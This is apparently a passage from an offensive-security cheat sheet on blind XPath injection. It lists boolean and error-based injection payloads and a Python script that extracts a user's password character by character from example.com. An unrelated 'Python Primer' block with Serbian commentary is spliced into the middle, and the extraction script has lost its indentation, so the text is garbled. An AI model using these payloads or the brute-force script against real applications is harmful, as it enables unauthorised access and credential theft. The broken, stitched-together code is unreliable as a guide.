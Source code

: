 ```bash
' or string-length(//user[position()=1]/child::node()[position()=1])=4 or ''=' #True if length equals 4
' or substring((//user[position()=1]/child::node()[position()=1]),1,1)="a" or ''=' #True is first equals "a"

substring(//user[userid=5]/username,2,1)=codepoints-to-string(INT_ORD_CHAR_HERE)

... and ( if ( $employee/role = 2 ) then error() else 0 )... #When error() is executed it rises an error and never returns a value
```

### **Python Primer**

```python
import requests

def get_user(username):
    url = f"http://example.com/users?username={username}"
    response = requests.get(url)
    return response.text

def main():
    username = input("Enter a username: ")
    user_data = get_user(username)
    print(user_data)

if __name__ == "__main__":
    main()
```

Ovde je primer Python koda. Ovaj kod koristi `requests` biblioteku za slanje HTTP zahteva. Funkcija `get_user` prima korisničko ime kao argument i pravi URL zahteva na osnovu tog korisničkog imena. Zatim šalje GET zahtev na taj URL i vraća odgovor kao tekst. Glavna funkcija `main` traži od korisnika da unese korisničko ime, a zatim poziva `get_user` funkciju i prikazuje dobijene podatke na ekranu.

```python
import requests, string

flag = ""
l = 0
alphabet = string.ascii_letters + string.digits + "{}_()"
for i in range(30):
r = requests.get("http://example.com?action=user&userid=2 and string-length(password)=" + str(i))
if ("TRUE_COND" in r.text):
l = i
break
print("[+] Password length: " + str(l))
for i in range(1, l + 1): #print("[i] Looking for char number " + str(i))
for al in alphabet:
r = requests.get("http://example.com?action=user&userid=2 and substring(password,"+str(i)+",1)="+al)
if ("TRUE_COND" in r.text):
flag += al
print("[+] Flag: " + flag)
break
```
